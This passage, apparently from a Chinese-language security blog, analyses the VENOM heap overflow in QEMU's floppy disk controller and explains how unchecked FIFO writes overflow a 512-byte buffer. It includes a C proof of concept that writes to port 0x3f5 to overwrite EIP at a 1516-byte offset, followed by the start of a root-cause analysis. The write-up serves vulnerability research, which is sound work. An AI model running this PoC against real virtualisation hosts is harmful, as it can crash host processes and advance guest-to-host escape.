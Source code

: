 通过控制传入fifo中的数据我们绕过这两个if判断语句，也就不会有fdctrl\_set\_fifo和fdctrl\_reset\_fifo的调用，这两个函数正是对fifo缓冲区进行清空和控制是否可写的函数。这样就能够调用outb无限向fifo缓冲区写数据，fifo是通过malloc分配的512字节空间，当超过512就会覆盖其他的数据，造成程序崩溃。

##4. eip定位

一般情况下，进程的堆离代码段是非常远的，并且heap在高地址空间而text在低地址空间，更不可能直接通过溢出堆空间修改eip。该漏洞通过堆溢出覆盖了eip，估计是覆盖了堆中动态分配的某些数据结构，这些数据结构会影响到eip。linux下面没有找到类似Immunity dbg的神器，要么自己写pattern文件定位eip，要么手工。由于实验用的虚拟机没弄网络，自己拷文件进去比较麻烦，就自己手工定位eip了。用二分法定位了20多分钟基本就知道大概1550个字节左右就会触发漏洞。这里有一个问题，导致我最开始以为eip不稳定。每次触发漏洞之后会导致poc被删除，然后我再开启虚拟机运行那个已经没有内容的poc，当然不会触发漏洞了（关于这个问题，后面会再说）。覆盖eip的位置大致定了之后就上gdb了，通过调试，最后确定1516个字节之后的4个字节就是覆盖eip的位置。poc第二版及崩溃后的eip截图如下：

	#include <sys/io.h>
	#include <stdio.h>
	
	#define FIFO 0x3f5
	
	
	int main()
	{
		int i;
		iopl(3);
		outb(0x08e,0x3f5);
		for(i = 0;i < 1515;i++)
			outb(0x42,0x3f5);
		for(i = 0;i < 4;i++)
			outb(0x43,0x3f5);
		for(i = 0;i < 50;++i)
			outb(0x44,0x3f5);
		return 0;
	}

![](/assets/img/venom/3.png)

我们看到进程如期崩溃，eip为43434343，定位精准。

##5. 原理分析

如第四部分所言，单纯的覆盖堆缓冲区是不能直接覆盖到eip的。本部分对覆盖到eip的原因进行分析。
gdb启动qemu进程，设置参数之后开始run，在虚拟机里面运行poc。

![](/assets/img/venom/4.png)
